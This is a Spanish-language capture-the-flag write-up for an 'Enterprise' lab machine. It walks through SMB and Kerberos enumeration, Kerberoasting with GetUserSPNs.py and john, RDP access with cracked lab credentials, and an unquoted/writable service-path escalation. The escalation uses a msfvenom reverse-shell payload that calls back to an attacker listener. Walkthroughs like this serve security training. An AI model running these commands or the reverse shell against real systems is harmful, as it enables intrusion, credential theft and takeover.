 Realizamos un escaneo de nmap
![[Pasted image 20240716073204.png]]
![[Pasted image 20240716073230.png]]

Añadimos los nombres que encontramos en el escaneo a `/etc/hosts`
![[Pasted image 20240716085521.png]]

Comenzamos enumerando el puerto 139 y 445 con crackmapexec
![[Pasted image 20240716073419.png]]

Continuamos enumerando el protocolo SMB
![[Pasted image 20240716073726.png]]

Enumeramos los recursos que dispone
![[Pasted image 20240716073904.png]]

Ahora pasamos a enumerar usuarios ya que encontramos el puerto 88 abierto para la autenticación de kerberos, para ello usaremos la herramienta [[Kerbrute]]
```
./kerbrute userenum --dc 10.10.116.29 -d lab.enterprise.thm /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -o users.txt
```
![[Pasted image 20240716085225.png]]

Encontramos en el puerto 7990 una web que se ha movido a github
![[Pasted image 20240716074921.png]]

Posteriormente buscamos en githib si encontramos algo de información acerda de la maquina, encontramos un directorio del creador de la maquina en el cual obtenemos unas credenciales
```
https://github.com/Nik-enterprise-dev/mgmtScript.ps1/blob/main/SystemInfo.ps1
```
![[Pasted image 20240716085028.png]]

Las comprobamos con crackmapexec y encontramos que son validas
```
crackmapexec smb lab.enterprise.thm -u 'nik' -p 'ToastyBoi!' --shares
```
![[Pasted image 20240716084925.png]]

Revisamos si podemos acceder con winrm
![[Pasted image 20240716085634.png]]
```
User: nik
Passwd: ToastyBoi!
```

Accedemos por rpcclient
```
rpcclient 10.10.116.29 -U 'nik'
```
![[Pasted image 20240716090026.png]]

Enumeramos los ususarios
![[Pasted image 20240716090121.png|500]]

Enumeramos los grupos
![[Pasted image 20240716090353.png|500]]

Ahora ejecutamos la herramienta `GetUserSPNs.py` y obtenemos el SPNs del usuario bitbucket
```
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py lab.enterprise.thm/nik:ToastyBoi! -dc-ip 10.10.116.29 -request
```
![[Pasted image 20240716093412.png]]

Copiamos el hash completo y obtenemos las credenciales del usuario bitbucket
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
![[Pasted image 20240716093819.png]]
```
User: Bitbucket
Passwd: littleredbucket
```

Ahora utilizaremos xfreerdp para acceder al escritorio remoto
```
xfreerdp /u:Bitbucket /p:littleredbucket /v:lab.enterprise.thm
```
![[Pasted image 20240716094151.png]]
![[Pasted image 20240716094308.png]]

Nos descargamos WinPEAS para encontrar vulnerabilidades
![[Pasted image 20240716095801.png]]

Lo ejecutamos y encontramos un directorio en el cual tenemos permisos de escritura
![[Pasted image 20240716103657.png]]

Lo verificamos y encontramos que tenemos todos los permisos
```
icacls "C:\Program Files (x86)\Zero Tier\Zero Tier One"
```
![[Pasted image 20240716103730.png]]

Ahora generamos un payload con msfvenom para ejecutarlo dentro de la carpeta y obtener permisos `AUTHORITY`
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.0.166 LPORT=4433 -f exe > Zero.exe
```
![[Pasted image 20240716113714.png]]

Lo transferimos y colocamos en el directorio `C:\Program Files (x86)\Zero Tier\`
![[Pasted image 20240716113828.png]]

Arrancamos el oyente en nuestra maquina para obtener la reverse shell
```
rlwrap nc -nvlp 4433
```
![[Pasted image 20240716114452.png]]

Ahora arrancamos el servicio
```Powershell
Start-Service -Name "zerotieroneservice"
```
![[Pasted image 20240716114520.png]]

Y obtendremos la shell como SYSTEM
![[Pasted image 20240716114551.png]]

Y obtenemos la flag de root
![[Pasted image 20240716114730.png]]